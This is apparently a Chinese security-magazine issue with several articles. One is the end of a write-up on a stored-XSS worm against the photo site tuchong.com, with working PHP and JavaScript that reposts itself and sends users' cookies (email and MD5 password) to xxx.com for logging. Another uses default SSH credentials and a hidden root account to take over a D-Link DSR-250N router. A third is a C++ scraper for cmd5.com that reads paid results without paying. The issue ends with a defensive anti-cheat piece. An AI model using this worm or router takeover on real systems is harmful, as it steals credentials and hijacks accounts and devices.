

图 4

现在我们找到了两个 XSS Worm 传播的条件：拥有存储 XSS、拥有用户传播途径（通过小组转发），之后再看看网站 cookies 的形式。

```text
site=tuchong;
__utma=115147160.2000407803.1354429492.1355641553.1355648163.6;
__utmz=115147160.1355648163.6.2.utmcsr=baidu|utmccn=(organic)|utmcmd=organic|utmctr=
SQLSTATE[23000]:%20Integrity%20constraint%20violation:%201062%20Duplicate%20entry%20%2727%20for%20key%20%27PRIMARY%27;    email=(用户邮箱地址);
PHPSESSID=1lj84l8tl8922b0k13bvfqeqg6;__utmb=115147160.34.10.1355648163;
__utmc=115147160; storage=305365; password=(MD5加密的密码)
```

Cookies 里的 email 和 password 这两个参数是我们所要获取的。至此，我们的 XSS Worm 基本上就健全了。首先发布带有 XSS 的图片文章，让用户访问并转发我们的图片文章，获得用户的 Cookies，在 Cookies 里注入我们的代码（document.cookie="xxx=yyy"），当用户再次访问到带有 XSS 的图片文章时，可以利用获得的 Cookies 值判断是否为感染过的用户，从而提高效率。

PHP 接收 Cookies 文件的代码如下（在 gpc=off 的条件下使用，gpc=on 时某些字符会被转义）。

background-image:url(http://www.baidu.com/img/baidu_sylogo1.gif);

```html
<html>
<head><title>90sec</title>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<style type="text/css">
body{
background-attachment:fixed;
background-repeat:no-repeat;
background-color:#AFAFAF;
background-position:50% 50%;
}
</style>
</head>
<body>
</body>
</html>
<?php
$cookie = $_GET['c']; //cookies接收参数
get_pwd_and_email($cookie);
function get_pwd_and_email($cookie)
{
    $get = array();
    if (!empty($cookie))
    {
        $cookie = strtr($cookie,";","&"); //把cookies中的;变为&
        parse_str($cookie,$get);//把查询字符串解析到变量中
        if(isset($get['email'])) $a=$get['email'];
        if(isset($get['password'])) $b=$get['password'];
        $c="email:$a-password:$b";
        //echo "$c";
        $password_list=file('E:/vhost/wwwroot/vhost1329816067000/www/uploads/sb.txt'); //写入文件的路径
        if(in_array("$c\r\n", $password_list))//如果用户存在就退出
        {break;}else{
$fp=@fopen('E:/vhost/wwwroot/vhost1329816067000/www/uploads/sb.txt','a');
@fwrite($fp,$c."\r\n"); //不存在就写入
@fclose($fp);
}
}
}
?>
```

c.js 代码如下：

```javascript
function ajaxFunction(){ //AJAX模板函数
    var xmlHttp;
    try{
        // Firefox, Opera 8.0+, Safari
        xmlHttp=new XMLHttpRequest();
    }catch (e){
        // Internet Explorer
        try{
            xmlHttp=new ActiveXObject("Msxml2.XMLHTTP");
        }catch (e){
            try{
                xmlHttp=new ActiveXObject("Microsoft.XMLHTTP");
            }
            catch (e){
                //alert("您的浏览器不支持AJAX！");
                return false;
            }
        }
    }
    return xmlHttp;
}

function XSS(){
    var b = document.cookie; //获取cookies
    if (b.indexOf("_Evil=xss")==-1){ //cookies值判断是否有用户被感染
        var _p=ajaxFunction();
        _p.open("POST","http://tuchong.com/api/post/repost/",true); //true为同步处理
        _p.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        _p.send("post_id=3986830&site_id=100001&content=%E9%BB%91%E9%98%B4%E9%98%B2%E7%BA%BF"); //此地址上面提起过
        document.writeln("<script src=\"http:\/\/xxx.com\/h.js\"><\/script>"); //加入Cookies的恶意代码
    }
}

document.cookie="_Evil=xss"; //在cookies追加赋值，配合上面那个if语句，判断用户是否被感染过

XSS();
```

h.js 代码如下：

```javascript
document.write('<iframe id="hk" width="0" height="0"></iframe><script>document.getElementById("hk").src="http://xxx.com/c.php?c="+document.cookie;</script>');
//配合PHP文件获取Cookies
```

## D-Link DSR-250N 的神秘帐号

文/ blackcool

硬件设备安全一直广受关注，前段时间有曝光三星手机存在漏洞可获得 root 权限，对用户安全造成严重影响。所谓获得 root 权限，是指可对系统进行完全的控制，可读写文件系统，可更改系统设置等等。当恶意攻击者获得 root 权限后，自然可以为所欲为。下面和大家分享一下获得路由器 D-Link DSR-250N 的 root 权限的方法。

| 项目 | 值 |
|---|---|
| 目标路由器 | D-Link DSR-250N |
| 硬件版本 | A1 |
| 固件版本 | 1.05B73_WW |
| 系统架构 | armv6l, Linux |

默认配置情况下，我们可以通过 SSH 登录设备（用户名和密码都是 admin）。

```text
root@bt:~# ssh admin@192.168.10.1
admin@192.168.10.1's password:
```

输入密码后可进行命令行操作：

```text
**********************************************
Welcome to DSR-250N Command Line Interface
**********************************************
D-Link DSR>
```

登录后可以执行一些常用命令，如 .exit、.help、.history、.reboot、.top、dot11、license、net、qos、security、show、system、util、vpn 等。我们使用 util 指令进行如下操作：

```text
D-Link DSR> util cat /etc/passwd
root:!:0:0:root:/root:/bin/sh
ZX4q9Q9JUpwTZuo7:$1$CtRn6tvb$c3GrPDua6tg9pXFWu.9rF1:0:0:root:/:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
admin:x:0:2:Linux User,,,:/home/admin:/bin/sh
guest:x:0:1001:Linux User,,,:/home/guest:/bin/sh
```

可以看到有该设备系统中的帐号信息，一共有 5 个帐号：root、ZX4q9Q9JUpwTZuo7、nobody、admin、guest。具有 root 权限的帐号有 2 个，值得注意的是“ZX4q9Q9JUpwTZuo7”这个神秘帐号，用户名复杂且权限很高，还设置了强密码……种种迹象表明这个帐号不简单，莫非是传说中的“后门帐号”？试想如果该设备处于某系统的重要环节并可联网，将是一件多么危险的事情，这个设备时刻面临被远程控制的威胁，如若其中传输机密信息，也将面临泄密风险。

下面再看看其他的指令工具，一个一个测试下发现“system”下有很多有用的功能，具体如下：

```text
D-Link DSR> system users edit 1
users-config[userdb]> username ZX4q9Q9JUpwTZuo7
users-config[userdb]> password blackcool
users-config[userdb]> password_confirm blackcool
users-config[userdb]> save
```

通过上述指令可以编辑用户名的密码，上面是重置了神秘用户的帐号及密码（密码修改为 blackcool），然后保存设置。当然也可以添加其他的管理员帐号并对其进行编辑。下面查看 passwd 文件。

```text
users-config[userdb]> util cat /etc/passwd
root:!:0:0:root:/root:/bin/sh
ZX4q9Q9JUpwTZuo7:wq8NLLJdoSzSw:0:0:root:/:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
guest:x:0:1001:Linux User,,,:/home/guest:/bin/sh
```

可以看到之前神秘帐号的加密方式为 MD5，现在已被更改为 DES 了。退出当前帐号，使用神秘帐号登录。

```text
users-config[userdb]> exit
D-Link DSR> .exit

root@bt:~# ssh ZX4q9Q9JUpwTZuo7@192.168.10.1
ZX4q9Q9JUpwTZuo7@192.168.10.1's password:
```

输入更改后的密码，进行登录，使用“id”命令查看当前用户权限。

```text
DSR-250N> id
uid=0(root) gid=0(root) groups=0(root)
```

使用“uname”命令查看系统版本信息。

```text
DSR-250N> uname -a
Linux DSR-250N 2.6.31.1-cavm1 #5 Fri Sep 28 11:41:26 IST 2012 armv6l GNU/Linux
```

当然也可以查看系统中的文件信息，也可以将其中可疑的文件拿出来逆向，但对于神秘帐号的探测到这里就结束了。

（完）

### 编程实现 CMD5.com 解密

文/图 腾笼

MD5 算法全称为 Message-Digest Algorithm 5（信息-摘要算法 5），是在 1992 年诞生的相当古老的算法。从名字“摘要”就可以看出是一种有损算法，这样的直接结果就是我们不能通过直接逆向算出原始数据（当然不只这一个原因）。但我们还是有办法得到原始数据的，只是办法相当简单粗暴：直接在数据库把常用数据的 MD5 记录下来，逆向时直接查找对应的值。这种办法只适合小规模的数据记录，一旦数据变多，数据库将会呈几何级数增长。由于现在部分不安全网站仍是简单地使用 MD5 或者类似的算法将密码散列一下，所以有人便将大量的资源用于计算和储存常用数据的 MD5 的对应值等。

本文主要以在线加密解密 MD5 的网站 http://www.cmd5.com/ 为例进行说明。对于其加密我们不多说，是通过 JavaScript 在本地实现的，简单加密文本用 JavaScript 足矣。对于其解密，自然是我们研究的重点。

本文使用了 Chrome 的网页调试工具，版本为 25.0.1354.0 dev-m，基本上不同版本间的网页调试工具没有太大区别。

新建隐身页——为了模拟最开始的环境，自然是从没有 Cookie 开始。右键审查元素，点到 Network 页面，输入网址，回车，之后可以得到一连串的数据，选择第一项，在右边点 Headers，我们看看在首次请求的时候发生了什么事。如图 1 所示。



图 1

简单来看，没有任何页面的跳转。再看看 Response Headers，发现它设置了一个 Cookie。为了模拟真实的浏览器操作，我们也应该将首页打开后记录其设置的 Cookie。

接下来，我们看看提交 MD5 值让其解密发生了什么。输入好 MD5，按下解密按钮，这里输入的是 **cfcd208495d565ef66e7dff9f98764da**，即文本 0 的 MD5 值。如图 2 所示。



图 2

可以看到执行的方式是 **POST** 表单，比较简单。在现在这个到处都是讲究用户体验的时代，还用这种方式是不太好的，再次输出已经存在的网页的大部分数据，就会加重服务器的负担，特别是在大规模和高访问量的网站。如果能用 JavaScript 只获取关键数据的话，能节省不少资源。同时，我们也可以发现，网页将之前设置的 Cookie 发送了出去，也没有什么变化。

既然发现了表单数据，对比源代码自然是分析表单里都填写了什么。在网页上查看源代码，对比源代码的表格 `<form name="aspnetForm" method="post" action="" id="aspnetForm">` 内的数据，不难发现 `__EVENTTARGET`、`__EVENTARGUMENT`、`__VIEWSTATE`、`ct100$ContentPlaceHolder1$Button1`、`ct100$ContentPlaceHolder1$HiddenField1`、`ct100$ContentPlaceHolder1$HiddenField2` 这些都是在网页中预先定义好的，而 `ct100$ContentPlaceHolder1$InputHashType` 是我们所选的解密类型，也可以尝试使用其他类型，这里就使用 MD5 了。还有非常明显的 `ct100$ContentPlaceHolder1$TextBoxInput`，就是我们输入的数据，即要解密的 MD5 值。

接下来便是实现了，本文使用的是开源库 **libcurl**，可方便地移植到其他平台，同时封装了一个类（`cmd5`），用于调用网站接口来获取 MD5 原始数据。

```cpp
int cmd5::decodemd5(const char* md5)
{
    return decode(md5, kMD5);
}
```

```cpp
}

int cmd5::decode(const char* hash, cmd5Type type)
{
    int ret = CMD5_ERROR;
    CBuffer htmlbuffer;

    if (m_htmlbuffer.GetBufferLen() > 0) {
        // 优化速度，不用每次都重载
        htmlbuffer.Copy(m_htmlbuffer);
    } else if ((ret = getpage(QUERY_HASH_URI, htmlbuffer)) != CMD5_OK) {
        return ret;
    }

    base::Properties pro;
    if (getinput(htmlbuffer, pro) <= 0) {
        return ret;
    }

    pro.Put("__EVENTARGUMENT", "");
    //$=%24
    {
        // 让 tpname 析构释放内存
        CURLEncodeA tpname(cmd5TypeString[(int)type],
            lstrlenA(cmd5TypeString[(int)type]));
        pro.Put("ctl00$ContentPlaceHolder1$InputHashType", tpname.c_str());
    }
    pro.Put("ctl00$ContentPlaceHolder1$TextBoxInput", hash);

    base::PropertiesMap& map = pro.GetMap();
    base::PropertiesMap::iterator iter = map.begin();
    while (iter != map.end()) {
        if (strstr(iter->first.c_str(), "TextBoxCode")) {
            ret = getvcode(VCODE_QUERY, iter->second);
            if (ret != CMD5_OK) {
                m_msg = MSG_ERROR_NEED_VCODE;
                return ret;
            }
            break;
        }
        iter++;
    }

    if ((ret = postpage(QUERY_HASH_URI, pro, &htmlbuffer)) != CMD5_OK) {
        return ret;
    }

    const char *html;
    char *valstart = NULL, *valend = NULL;
    html = (const char *)htmlbuffer.GetBuffer();
    if (strstr(html, "ctl00$ContentPlaceHolder1$TextBoxCode")) {
        // 需要验证码
        m_htmlbuffer.Copy(htmlbuffer);
        return CMD5_NEED_VCODE;
    }

    valstart = strstr((char *)html, "<span id=\"ctl00_ContentPlaceHolder1_LabelAnswer\"");
    ret = CMD5_ERROR_NEXT;
    if (valstart) {
        valstart = strstr(valstart, ">");
    }
}
```

```cpp
if (valstart) {
    valstart++;
    // 计算内部 span 数量
    int span = 0;
    char *spanstart = NULL;
    valend = strstr(valstart, "</span>");
    do {
        if (spanstart) span++;
        spanstart = strstr(spanstart ? spanstart + 6 : valstart, "<span");
    } while (spanstart && spanstart < valend);
    for (int i = 0; i < span; i++) {
        if (valend) valend = strstr(valend + 7, "</span>");
    }
    if (valend) {
        valend[0] = 0;
    }
    setmessage(valstart);
    ret = CMD5_OK;
    //keywords filter
    for (int i = 0; i < KF_COUNT; i++) {
        if (wcsstr(m_msg.c_str(), kf[i].keywords) != NULL) {
            ret = kf[i].code;
            break;
        }
    }
}
return ret;
```

在这里，decode 是 cmd5 类的最外层接口，用于传入要解密的 hash 值和加密的类型（cmd5Type），里面调用的 getpage 用来获取页面。这其中做了一点小小的优化，让我们获取页面的次数减少一半，因为通过 POST 请求后，页面同样可以再次进行下一次请求，页面中也同样保存着表格数据，我们可以用当前的结果页面再次获取表单重新提交，这样就不需要每次都重新获取首页来得到数据了。postpage 内部接口用来向网站 POST 数据，获取我们的结果。通过循环查找 `<input` 标签来获取表单需要提交的内容，这样做可以很大程度避免网站因为修改部分参数的名字和数据而发生需要重新修改代码的情况。

我们可以简单地通过 Chrome 的审查元素功能，在页面的查询结果处发现结果所存在的容器，如图 3 所示。所以我们通过截取 `<span id="ctl00_ContentPlaceHolder1_LabelAnswer"></span>` 中的数据即可得到所需的数据。



图 3

另外需要说明的是验证码。这个网站同样有验证码，在测试过程中，从第 1 次进行到第 20 次，到第 20 次的时候会有验证码要求输入，这个验证码输入和 IP 有关，且不会在较短的时间内消失，我们必须将验证码输入后重新提交数据，才能让网站继续工作，所以代码中加入了对验证码的支持。

通过分析，很容易就可以发现验证码的图片地址是 http://www.cmd5.com/checkcode.aspx/0，下载到电脑后显示即可。（这里实现的方法比较简单，需要保存到文件，读者可以试着优化将其从内存读取，这里就不多说了。）通过创建一个窗体，我们可以直接输入验证码，并进行下一步的操作，如图 4 所示。



图 4

另外，cmd5 还提供了付费查询功能，虽然需要出点钱，但是不管怎么说，如果真的需要的话，付费也是非常好的办法，运营服务器以及各种事情都是需要经费的，如果我们愿意购买一些服务，对网站的良性发展还是有利的。

接着便是分析网站的登录接口，打开登录页面，填上我们的账号密码，打开 Chrome 的审查元素，点 Network，接下来点提交按钮。简单看一下表单数据，很容易发现 ctl00$ContentPlaceHolder1$TextBoxCmd5_E 和 ctl00$ContentPlaceHolder1$TextBoxCmd5_P 分别对应 email 和密码，email 是明文，不过密码经过了加密。返回登录页面，在提交按钮上右键点击审查元素，可以看到以下的一段 HTML 代码：

```html
<input
    type="submit"
    name="ctl00$ContentPlaceHolder1$Button1"
    value="提交"
    onclick="if (!Page_ClientValidate(&quot;cmd5pass&quot;)) return false;ctl00_ContentPlaceHolder1_TextBoxCmd5_P.value=checkpass(ctl00_ContentPlaceHolder1_TextBoxCmd5_P.value,ctl00_ContentPlaceHolder1_TextBoxCmd5_E.value,'2a29e990ceed656e');"
    id="ctl00_ContentPlaceHolder1_Button1"
    style="width:78px;">
```

很明显，我们可以在 onclick 事件中发现其加密方法：

```javascript
checkpass(ctl00_ContentPlaceHolder1_TextBoxCmd5_P.value,ctl00_ContentPlaceHolder1_TextBoxCmd5_E.value,'2a29e990ceed656e')
```

转到 Chrome 控制台，输入 checkpass 回车，就可以直接看到这个函数的代码了，如图 5 所示。看一下函数名字，发现应该是一些已知的算法 md5 和 des。



图 5

我们可以简单测试一下这些函数，在控制台输入 `hex_md5("1")`，也就是字符串 1 的 MD5 值，这个函数看起来比较简单。des 函数略显复杂，我们暂时不去管它，先把 C++ 代码 checkpass 写好，写个框架出来，最后再来弄这个 checkpass 的过程。一切准备好后，为了调试这个函数，输入我们的 email 和密码，以及 des 算法的 key，这样可以知道算出来的结果是多少，因为网站已经帮我们算出来了。

不过在这里遇到了一个问题，可能是对 des 算法不太了解吧，在这里应该是 des 的 ecb 算法，不过在使用 openssl 现成的 des 算法库的时候却撞了墙，怎么算都和网站 JS 脚本算出来的不同，经过多次尝试后，最终选择了翻译 JS 代码。

使用 Chrome 的控制台，很容易就能看到 des 函数的代码，将其照搬到 C++ 代码即可，也不是太难，毕竟 JavaScript 和 C/C++ 有很多地方都很类似呢！之后就是对登录返回结果的一些判断，比如登录成功就会自动跳转页面，网页内容中也有相关的关键词，这里使用的是对网页内容的判断，相对于响应头可能可以更准确一点。不过最关键的，还是响应头中的 Set-Cookie，设置了用户的 Cookie。

由于 login 和解密 hash 的函数结构上较类似，就不仔细分析了，值得注意的是，登录界面中的验证码地址和解密页面中稍有不同。

既然已经成功登录了，当然要对一些需要付费查看的内容进行解析。我们选择了一个需要付费查看的 md5 进行测试：`0e947b6851b42cf299875d1e4b300c92`，在其返回的结果中很容易看到其购买网址，将其截取出来，访问就可以了。如果还有足够查询剩余条数的话，就可以顺利跳转到下一个网址，即显示加密前的原始数据：`/default.aspx?hashtype=md5&answer=ZGFzZDJ3Mw==`。从多年的经验来看，Query 数据中的 answer 明显是一个 base64 加密后的数据，果断解密，得到的正是加密前的原始数据 dasd2w3，所以，我们不跳转也是可以得到结果的，这里自然是直接用 base64 解密得到原始数据了。如图 6 所示。



图 6

到这里就大致讲完了，读者可根据自己的需求修改代码，比如换种查询的种类。不过我认为更需要在意的是解决一个问题的方法和过程，从怎么测试到发现，然后构思到代码实现，这都是我们需要多练习的。笔者在 DES 算法使用上不熟，直接导致浪费了大量时间用于 checkpass 中的 des 过程还原，就算是最终还原了，但却是对照 JavaScript 代码翻译来的。

顺便在这里说说这次的调试过程中的其他一些出现问题的地方。一开始笔者将网站网址错填为 http://cmd5.com，初始并没看出问题，因为在这个网址下同样能工作，但是很严重的问题是，当使用 Accept-Encoding: gzip,deflate 协议头请求 gzip 压缩过的数据的时候，这个网址指向的服务器居然不支持，返回了原始数据，这样就造成了极大的时间浪费。笔者随后为之不断地填充协议头，让其和 Chrome 发送的数据不断地接近相同，但是仍不奏效。久试无果的情况下，突然看到了得到的服务器响应头中的 Server: Microsoft-IIS/6.0，这里是 IIS 6.0 的，记得之前在浏览器看到的是 IIS 7.0 的，然后再一看网址，原来是少了 www，可见开始写代码时的正确性是多么重要啊。

### 反外挂保护游戏的关键调用

图/文 DebugMe

目前绝大多数游戏外挂的工作原理，都是寻找游戏中存在的功能 Call，然后自己调用。尽管许多网络游戏都有反外挂系统，但其主要是对游戏进程进行防御，保护游戏进程不被非法打开、调试等，并未对游戏中的关键调用进行保护。本文针对该问题进行了讨论，并提出了一种保护思路。

#### 验证关键 CALL 的返回地址

游戏中关键 Call 的正常调用过程，肯定存在于游戏的某些合法模块中，返回地址也肯定在游戏本身的模块中，因此我们可以事先将这些模块的地址范围记录下来，在关键 Call 中获取其返回地址，并验证是否在合法模块的地址范围中。此方案的关键是获取返回地址，那么怎么获取一个函数的返回地址呢？我们知道在进行函数调用时，CPU 会将 Call 指令后面的一条指令的地址压入堆栈中，因此可以在堆栈中获取函数的返回地址。图 1 是一个典型的函数调用堆栈，通过 `mov eax,dword ptr [ebp+4]` 就可以非常方便地获取到返回地址。

